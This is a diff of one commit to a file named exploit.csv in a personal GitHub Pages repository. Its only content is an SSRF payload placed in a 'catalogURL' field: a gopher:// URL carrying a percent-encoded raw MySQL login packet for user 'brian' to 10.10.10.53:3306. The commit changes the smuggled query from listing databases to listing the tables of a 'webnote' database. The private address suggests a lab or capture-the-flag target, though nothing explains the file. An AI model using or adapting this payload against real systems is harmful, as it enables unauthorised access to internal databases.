

Before and after one commit to LeKvND/lekvnd.github.io, a CSV file: exploit.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update exploit.csv

```diff
--- a/exploit.csv
+++ b/exploit.csv
-C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%73%68%6f%77%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01
+C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%1a%00%00%00%03%75%73%65%20%77%65%62%6e%6f%74%65%3b%20%73%68%6f%77%20%74%61%62%6c%65%73%3b%01%00%00%00%01
```
